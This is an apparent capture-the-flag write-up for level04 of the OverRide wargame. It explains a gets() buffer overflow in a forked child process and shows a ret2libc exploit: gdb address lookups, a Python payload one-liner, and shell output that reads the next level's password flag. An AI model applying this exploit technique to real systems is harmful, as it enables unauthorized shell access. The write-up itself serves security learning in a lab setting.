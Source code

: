 ### Process of the Exploit
- the code fork a chill process
- there is a `gets(buffer)` in the child process
- we can exploit a buffer overflow with that gets
- gdb cant follow what happend in child process by default, you need this command to tell gdb to show the error in child process : `set follow-fork-mode child`
---

### Solution :

- Payload : **`(A * 156 + system + exit + "/bin/sh/")`**
	- find the address of system
		```
		(gdb) p system
		$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
		```
		**0xf7e6aed0**
	- find the address of exit
		```
		(gdb) p exit
		$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
		(gdb)
		```
		**0xf7e5eb70**
	- find the address of "/bin/sh"
		```
		(gdb) find system, +9999999, "/bin/sh"
		0xf7f897ec
		warning: Unable to access target memory at 0xf7fd3b74, halting search.
		1 pattern found.
		(gdb) x/s 0xf7f897ec
		0xf7f897ec:	 "/bin/sh"
		(gdb)
		```
		**0xf7f897ec**
- **`(python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" '; cat -) | ./level04`**
- 
	```shell
	level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" '; cat -) | ./level04
	Give me some shellcode, k
	pwd
	/home/users/level04
	whoami
	level05
	cat /home/users/level05/.pass
	3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
	```
|**`flag : 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`**
---
